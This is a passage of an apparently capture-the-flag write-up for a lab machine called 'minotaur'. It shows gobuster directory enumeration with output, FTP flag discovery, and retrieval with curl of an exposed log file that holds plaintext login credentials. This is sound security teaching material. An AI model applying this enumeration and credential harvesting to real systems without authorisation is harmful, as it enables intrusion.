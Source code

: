 This "User Pannel" page is returned with a 302 and redirects immediately to a `login.html` page in the browser. As we don't currently have credentials for this page, we continue enumeration with a gobuster scan using dirbuster's medium wordlist, searching for directories and .php files. As all routes are directed to the `login.html` page, we need to user the "--exclude-length" flag to remove this page from the results :

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --exclude-length 3562 -x php 
...snip...
/login.php            (Status: 200) [Size: 3]
/css                  (Status: 301) [Size: 232] [--> http://10.10.248.53/css/]
/imgs                 (Status: 301) [Size: 233] [--> http://10.10.248.53/imgs/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.248.53/js/]  
/api                  (Status: 301) [Size: 232] [--> http://10.10.248.53/api/] 
/logout.php           (Status: 302) [Size: 0] [--> login.html]
/logs                 (Status: 301) [Size: 233] [--> http://10.10.248.53/logs/]
/session.php          (Status: 302) [Size: 3] [--> login.html]
/phpmyadmin           (Status: 403) [Size: 1189]
/echo.php             (Status: 302) [Size: 1278] [--> login.html]
```

Only the `echo.php` route is required to provide a foothold on the box (you can skip to section 4 if you're not interested in the room's flags). We'll go back to these discoveries after going through the FTP service.

## 3. FTP - information disclosure

The room's first flag is inside a hidden directory `/pub/.secret` available on the FTP server. The server also contains a file `message.txt` that reveals possible usernames (daedalus, minotaur) and reminds us to focus on enumeration, and a file `keep_in_mind.txt` that tells us that that the administrator is forgetful and uses "timers" to help their memory. None of this information is required to root the box.

## 4. /logs/post_logs/ - credential disclosure

Navigating to the `/api/` route discovered by gobuster reveals a number of .php files related to the "User Pannel" discovered in section 1, but these provide no additional information on the application.

The `/logs/` route reveals a single file `/logs/post/post_log.log` which is a testing artefact - a HTTP request to a local test version of the `login.php` page including plaintext credentials : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/logs/post/post_log.log
POST /minotaur/minotaur-box/login.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 36
...snip...
email=Daedalus&password=PASSWORD
```

